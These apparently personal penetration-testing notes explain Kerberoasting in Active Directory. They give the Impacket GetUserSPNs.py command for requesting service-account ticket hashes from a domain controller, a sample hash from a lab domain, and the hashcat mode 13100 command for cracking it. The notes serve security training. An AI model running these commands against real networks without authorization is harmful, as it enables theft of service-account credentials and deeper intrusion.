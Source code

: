 # Kerberoasting

Kerberoasting is the process of obtaining hashes of service accounts within active directory and cracking them to reveal their plain-text credentials.

## Impacket GetUserSPNs.py

The Impacket tool suite, available from https://github.com/SecureAuthCorp/impacket, includes the script GetUserSPNs.py.  Once a domain account has been compromised, this script can be used against a domain controller to obtain the hash of a service account.  The following command will dump the hash:

`sudo python3 GetUserSPNs.py <domain_name>/<username>:<password> -dc-ip <domain_controller_IP_address> -request`

This should return a hash in the following format:

```
$krb5tgs$23$*SQLService$MARVEL.LOCAL$HYDRA-DC/SQLService.MARVEL.local~60111*$b2afd9bf0f7c3ddbb45d9dbac43f4869$aec752a093ee2ee1f37171fca471b9131a4c40a67a73fdf765160da61da02eefaf455cf1f93d859b026d90820673057eb3bedcc58f1919b113204f78e1ea7c3ba796a08ac41aa8e7314fc2f74daaee5f7a8cf4b2eae9ca71d1cf024b584c2a696dc9c25abefa28b643f829f2656d6a392cf1dfa88023b7dadba8fb5e54fc736dc0dae2674635222d52013d871969b3c1cfa503fc2e7173f[...SNIP...]
```

## Cracking the hash using HashCat

Hashcat can be used with a password list in an attempt to obtain the plain-text of the password.  In this case mode 13100 "Kerberos 5 TGS-REP" can be used:

`hashcat64.exe -m 13100 kerberos_hash.txt /path/to/password_list.txt`

If the password is present in the password list, HashCat will display the plain-text password once cracked.

